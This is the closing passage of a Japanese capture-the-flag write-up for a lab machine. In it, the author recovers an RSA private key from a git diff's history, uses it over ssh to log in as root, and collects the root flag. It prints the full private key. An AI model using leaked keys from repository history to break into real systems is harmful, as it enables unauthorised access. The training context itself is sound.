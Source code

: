 ```
-S8Flzil7vCo6C1U8ORjnJVwHpw12pPHlHTFgXfUFjvGhAdCfY7XgOSV+5SwWkec6
-md/EqUtm84/VugTzNH5JS234dYAbrx498jQaTvV8UgtHJSxAZftL8UAJXmqOR3ie
-LWXpAoGADMbq4aFzQuUPldxr3thx0KRz9LJUJfrpADAUbxo8zVvbwt4gM2vsXwcz
-oAvexd1JRMkbC7YOgrzZ9iOxHP+mg/LLENmHimcyKCqaY3XzqXqk9lOhA3ymOcLw
-LS4O7JPRqVmgZzUUnDiAVuUHWuHGGXpWpz9EGau6dIbQaUUSOEE=
+MIIEpQIBAAKCAQEApc7idlMQHM4QDf2d8MFjIW40UickQx/cvxPZX0XunSLD8veN
+ouroJLw0Qtfh+dS6y+rbHnj4+HySF1HCAWs53MYS7m67bCZh9Bj21+E4fz/uwDSE
+23g18kmkjmzWQ2AjDeC0EyWH3k4iRnABruBHs8+fssjW5sSxze74d7Ez3uOI9zPE
+sQ26ynmLutnd/MpyxFjCigP02McCBrNLaclcbEgBgEn9v+KBtUkfgMgt5CNLfV8s
+ukQs4gdHPeSj7kDpgHkRyCt+YAqvs3XkrgMDh3qI9tCPfs8jHUvuRHyGdMnqzI16
+ZBlx4UG0bdxtoE8DLjfoJuWGfCF/dTAFLHK3mwIDAQABAoIBADelrnV9vRudwN+h
+LZ++l7GBlge4YUAx8lkipUKHauTL5S2nDZ8O7ahejb+dSpcZYTPM94tLmGt1C2bO
+JqlpPjstMu9YtIhAfYF522ZqjRaP82YIekpaFujg9FxkhKiKHFms/2KppubiHDi9
+oKL7XLUpSnSrWQyMGQx/Vl59V2ZHNsBxptZ+qQYavc7bGP3h4HoRurrPiVlmPwXM
+xL8NWx4knCZEC+YId8cAqyJ2EC4RoAr7tQ3xb46jC24Gc/YFkI9b7WCKpFgiszhw
+vFvkYQDuIvzsIyunqe3YR0v8TKEfWKtm8T9iyb2yXTa+b/U3I9We1P+0nbfjYX8x
+6umhQuECgYEA0fvp8m2KKJkkigDCsaCpP5dWPijukHV+CLBldcmrvUxRTIa8o4e+
+OWOMW1JPEtDTj7kDpikekvHBPACBd5fYnqYnxPv+6pfyh3H5SuLhu9PPA36MjRyE
+4+tDgPvXsfQqAKLF3crG9yKVUqw2G8FFo7dqLp3cDxCs5sk6Gq/lAesCgYEAyiS0
+937GI+GDtBZ4bjylz4L5IHO55WI7CYPKrgUeKqi8ovKLDsBEboBbqRWcHr182E94
+SQMoKu++K1nbly2YS+mv4bOanSFdc6bT/SAHKdImo8buqM0IhrYTNvArN/Puv4VT
+Nszh8L9BDEc/DOQQQzsKiwIHab/rKJHZeA6cBRECgYEAgLg6CwAXBxgJjAc3Uge4
+eGDe3y/cPfWoEs9/AptjiaD03UJi9KPLegaKDZkBG/mjFqFFmV/vfAhyecOdmaAd
+i/Mywc/vzgLjCyBUvxEhazBF4FB8/CuVUtnvAWxgJpgT/1vIi1M4cFpkys8CRDVP
+6TIQBw+BzEJemwKTebSFX40CgYEAtZt61iwYWV4fFCln8yobka5KoeQ2rCWvgqHb
+8rH4Yz0LlJ2xXwRPtrMtJmCazWdSBYiIOZhTexe+03W8ejrla7Y8ZNsWWnsCWYgV
+RoGCzgjW3Cc6fX8PXO+xnZbyTSejZH+kvkQd7Uv2ZdCQjcVL8wrVMwQUouZgoCdA
+qML/WvECgYEAyNoevgP+tJqDtrxGmLK2hwuoY11ZIgxHUj9YkikwuZQOmFk3EffI
+T3Sd/6nWVzi1FO16KjhRGrqwb6BCDxeyxG508hHzikoWyMN0AA2st8a8YS6jiOog
+bU34EzQLp7oRU/TKO6Mx5ibQxkZPIHfgA1+Qsu27yIwlprQ64+oeEr0=
 -----END RSA PRIVATE KEY-----
-

```

途中で鍵が変更されています
`reverted accidental commit with proper key`と言っているので変更前が怪しいですね

変更前の key で ssh を試してみると

```
kali@kali:~/results/10.10.10.91/exploit$ ssh -i some_key root@10.10.10.91
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

Last login: Mon Mar 26 06:23:48 2018 from 192.168.57.1                                                                                                                                                                                     
root@gitter:~# ls 
```
そのまま root の key だったようです

これで root.txt が取れます

## 終わりに
鍵が色々出てきてこのまま hydra で ssh のブルートフォースかな〜（めんどくさい）とか思ってましたがスッと root でよかった…

